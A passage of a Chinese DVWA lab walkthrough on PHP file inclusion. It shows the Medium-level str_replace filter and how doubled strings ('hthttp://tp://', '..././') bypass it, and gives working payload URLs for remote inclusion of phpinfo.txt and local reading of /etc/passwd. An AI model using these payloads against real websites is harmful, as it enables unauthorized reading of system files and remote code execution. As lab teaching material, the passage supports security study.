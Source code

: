 ```
<?php phpinfo(); ?>
```

构造url


```
http://192.168.1.210:9999/vulnerabilities/fi/?page=http://192.168.1.210:81/phpinfo.txt
```


![image]({path}/25.png)

成功在服务器上执行了phpinfo函数


### Medium
服务器端核心代码


```
<php

//Thepagewewishtodisplay
$file=$_GET['page'];

//Inputvalidation
$file=str_replace(array("http://","https://"),"",$file);
$file=str_replace(array("../","..\""),"",$file);

>
```

可以看到，Medium级别的代码增加了str_replace函数，对page参数进行了一定的处理，将”http:// ”、”https://”、 ” ../”、”..\”替换为空字符，即删除。

漏洞利用
使用str_replace函数是极其不安全的，因为可以使用双写绕过替换规则。

例如page=hthttp://tp://192.168.5.12/phpinfo.txt时，str_replace函数会将http://删除，于是page=http://192.168.5.12/phpinfo.txt，成功执行远程命令。

同时，因为替换的只是“../”、“..\”，所以对采用绝对路径的方式包含文件是不会受到任何限制的。

1.本地文件包含


```
http://192.168.1.210:9999/vulnerabilities/fi/?page=..././..././..././etc/passwd
```

![image]({path}/26.png)




2.远程文件包含

```
http://192.168.1.210:9999/vulnerabilities/fi/?page=htthttp://p://192.168.1.210:81/phpinfo.txt
```
![image]({path}/27.png)
